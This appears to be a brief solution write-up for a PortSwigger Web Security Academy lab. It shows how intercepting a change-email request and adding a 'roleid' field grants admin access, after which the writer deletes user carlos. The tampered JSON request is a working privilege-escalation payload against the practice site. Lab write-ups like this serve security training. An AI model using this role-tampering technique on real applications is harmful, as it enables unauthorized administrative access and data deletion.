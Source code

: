 # Lab: User role can be modified in user profile
# https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile

```bash
# Login as wiener, change your mail to a@gmail.com.
# Open HTTP history and check change-email request's response:

{
  "username": "wiener",
  "email": "a@gmail.com",
  "apikey": "sjtxW6UIbSxvOj0Ip3vwUuZBoE0ie9bz",
  "roleid": 1
}
```


```bash
# Turn Intercept on, put abc@gmail.com as mail and click on update email.

{
"email":"abc@gmail.com",
"roleid":2

}
# Forward the request and close interception.

# Visit https://0aa800ec032d70ce85ef4ace00b5008e.web-security-academy.net/admin

# Delete Carlos.
```
